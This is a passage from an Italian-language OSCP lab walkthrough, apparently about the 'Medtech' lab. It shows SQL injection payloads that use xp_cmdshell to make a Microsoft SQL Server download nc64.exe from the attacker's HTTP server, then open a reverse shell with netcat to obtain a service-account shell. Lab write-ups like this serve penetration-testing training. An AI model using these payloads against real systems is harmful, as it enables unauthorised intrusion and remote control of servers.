 ![](/OSCP/Immagini_OSCP/Medtech/192.168.171.121_port80_tcpdump_ping.png)

Provo allora scaricare _nc64.exe_ sulla macchina target avviando un server http sylla porta 9999 tramite python sulla mia macchina:

```bash
python3 -m http.server 9999
```

E utilizzo il seguente payload:

```bash
ciao'; EXEC xp_cmdshell 'curl -o C:\windows\temp\nc64.exe http://192.168.45.212:9999/nc64.exe'; waitfor delay '0:0:2'--
```

Una volta scaricato, avvio un listener sulla mia macchina sulla porta 443:

```bash
nc -nvlp 443
```

E utilizzo questo payload per ricavare una reverse-shell:

```bash
ciao'; EXEC xp_cmdshell 'C:\windows\temp\nc64.exe 192.168.45.212 443 -e cmd.exe'; waitfor delay '0:0:2'--
```

Ricavo in questo modo una shell per l'utente nt service\mssql$sqlexpress:
